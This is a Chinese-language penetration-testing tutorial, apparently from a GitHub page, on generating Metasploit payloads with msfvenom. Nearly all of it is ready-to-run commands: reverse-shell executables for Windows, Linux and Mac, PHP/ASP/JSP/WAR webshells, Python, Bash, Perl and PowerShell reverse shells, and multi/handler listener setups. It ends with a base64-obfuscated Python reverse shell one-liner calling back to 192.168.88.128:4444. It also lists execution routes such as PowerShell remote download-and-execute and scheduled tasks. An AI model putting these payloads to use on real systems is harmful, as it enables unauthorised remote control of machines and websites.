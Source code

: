 ## 生成适用于`msf`的`payload`以及利用

主要记录一下常用的`payload`以及如何使用。

生成`payload`使用的工具是`MSFVenom`

在`kali`下可以使用如下命令列出`MSFVenom`可以生成的`payload`列表：

`msfvenom -l`



-----
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。


```shell
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

如何利用
针对这个部分就以`Windows`为例，使用上面的命令生成一个`exe`的`payload`

命令如下：

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f exe > shell.exe`

> 记得一定要把 lhost lport 都填全
-----

 
复制`shell.exe`到`Windows`机器，然后`kali`下开启`msf`使用如下命令监听`4444`端口：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
执行完之后在Windows下执行`shell.exe`，然后等结果




-----
 
在这里既然使用到了在Windows下执行应用程序，我们就大概盘点一下在Windows执行应用程序的几种方式：

双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
生成webshell脚本
在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成一个可以用msf操作的webshell呢？

- PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

 
- ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

- JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

- WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

---------------------
## 利用

下面以php为例做一下测试，使用以下命令生成一个webshell：

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php`

 
在kali上使用msf执行下面的命令，监听端口4444：
```shell
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z

```
将`shell.php` 放在`web`目录下，使用 **浏览器访问**，或者使用以下命令执行：

`php shell.php`

------- 

## 脚本`shell`

关于使用脚本反弹`shell`的方式，主要以`python`、`bash`、`perl`为例。

- Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

- Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

- Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

- Powershell
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1`

`powershell.exe -ExecutionPolicy Bypass -File shell.ps1`

----
## 使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：

`msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py`

 
在kali上使用msf执行下面的命令，监听端口4444：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
然后复制`shell.py`中的内容在linux命令行下执行，如下：

```python
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```
 



## 总结
`msfvenom`生成常用的反向连接的`shell`，`msfvenom`可以生成的`shell`很多